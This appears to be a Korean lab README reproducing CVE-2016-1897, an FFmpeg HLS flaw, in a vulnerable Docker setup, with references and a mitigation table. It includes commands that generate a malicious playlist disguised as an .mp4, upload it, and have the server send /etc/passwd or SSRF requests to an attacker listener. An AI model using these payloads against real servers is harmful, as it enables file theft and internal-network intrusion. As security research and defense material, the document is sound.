




# CVE-2016-1897 — FFmpeg SSRF 및 임의 파일 읽기

**Contributors**

- [김규민(@mogimushroom)](https://github.com/mogimushroom)

<br/>

### 요약

- FFmpeg < 2.8.5에서 HLS 플레이리스트 파서가 외부 프로토콜 제한 없이 URL을 요청할 수 있음
- 악의적인 `.m3u` 파일 업로드 시 서버에서 **SSRF** 및 **임의 파일 읽기** 발생 가능
- 파일 확장자가 아닌 **파일 내용(매직 바이트)**으로 포맷을 감지하므로 `.mp4`로 위장하여 업로드 가능

### 참고 자료

- https://nvd.nist.gov/vuln/detail/CVE-2016-1897
- https://github.com/vulhub/vulhub/blob/master/ffmpeg/CVE-2016-1897/README.md
- https://www.ffmpeg.org/security.html

<br/>

### 환경 구성 및 실행

```bash
docker compose up -d --build
```

> Dockerfile에서 FFmpeg 2.8.4를 소스에서 직접 컴파일하므로 빌드에 수 분이 소요됩니다.

```bash
docker compose exec web ffmpeg -version
```

`ffmpeg version 2.8.4` — 취약한 버전이 실행 중입니다.

<br/>

### 재현 절차

#### 1. SSRF 테스트

```bash
# 공격용 파일 생성 (.mp4로 위장)
python3 exploit.py generate ssrf host.docker.internal -o video.mp4

# 리스닝 서버 실행 (별도 터미널)
python3 exploit.py ssrf http://your-ip:8080 host.docker.internal
```

`video.mp4`를 웹 인터페이스(`http://your-ip:8080`)에서 업로드하면, 서버의 FFmpeg가 공격자 서버로 HTTP 요청을 보냅니다.

```bash
# 또는 curl로 업로드
curl -X POST -F "file=@video.mp4" http://your-ip:8080
```

exploit.py 터미널에서 다음 로그가 출력되면 SSRF 성공:

```
[+] 요청 수신됨
    Path:       /probe
    User-Agent: Lavf/56.40.101
    [!] FFmpeg 라이브러리(Lavf)가 보낸 요청입니다
    [+] SSRF 확인 — 응답 전송 완료 (14 bytes)
```







#### 2. 임의 파일 읽기 테스트

```bash
# 공격용 파일 생성 (파일 읽기 페이로드)
python3 exploit.py generate read host.docker.internal -f /etc/passwd -o payload.mp4

# 리스닝 서버 실행 (별도 터미널)
python3 exploit.py read http://your-ip:8080 /etc/passwd host.docker.internal
```

`payload.mp4`를 업로드하면, `concat:` 프로토콜과 `subfile` 서브프로토콜을 통해 서버의 로컬 파일이 읽힙니다.







<br/>

### 결과

**SSRF**: `User-Agent: Lavf/56.40.101` — FFmpeg 라이브러리의 HTTP 클라이언트입니다. 서버 내부의 FFmpeg가 공격자가 지정한 외부 서버로 HTTP 요청을 보냈다는 증거입니다.

**파일 읽기**: `concat:` 프로토콜이 서버의 로컬 파일(`/etc/passwd`)을 읽어 공격자 서버로 전송합니다. 공격자는 m3u 파일의 URL을 임의로 지정할 수 있으므로, 서버가 내부 네트워크의 비공개 서비스에 접근하거나 민감한 파일을 유출할 수 있습니다.

> **intermediate 요청이 반복되는 이유**: `concat:` 프로토콜은 각 `subfile` 세그먼트마다 intermediate m3u8을 새로 fetch합니다. FFmpeg가 세그먼트 데이터를 디코딩하다 실패하면 재시도하면서 요청이 추가 발생합니다. 이 PoC의 특성상 불가피하며, `subfile` 세그먼트 수에 비례하여 증가합니다.

<br/>

### 대응 방안

| 구분 | 권장 조치 |
|------|-----------|
| 패치 | FFmpeg를 2.8.5 이상으로 업그레이드 |
| 격리 | FFmpeg를 샌드박스 환경에서 실행하여 로컬 파일 접근 권한 제한 |
| 구성 | `concat:`, `subfile` 프로토콜 비활성화 |
| 모니터링 | 서버에서 비정상적인 외부 HTTP 요청 모니터링 |

<br/>

| 항목 | 값 |
|------|-----|
| CVSS 3.1 | 7.5 (High) |
| 재현도 | 85% |
